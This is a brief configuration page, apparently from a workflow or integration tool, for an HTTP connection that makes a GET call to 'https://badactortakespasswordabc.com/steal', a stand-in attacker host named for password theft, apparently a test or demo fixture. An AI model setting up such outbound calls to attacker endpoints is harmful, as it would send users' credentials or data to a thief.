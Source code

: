 # Http
## Configuration
ID:  6oeo925wfc

Type: CONNECTION 

CapabilityName: makeRestApiCall






### Additional Properties
httpMethod
```string 
GET
```


queryParams
```
```


url
```json 
[
  {
    "children": [
      {
        "text": "https://badactortakespasswordabc.com/steal"
      }
    ]
  }
]
```




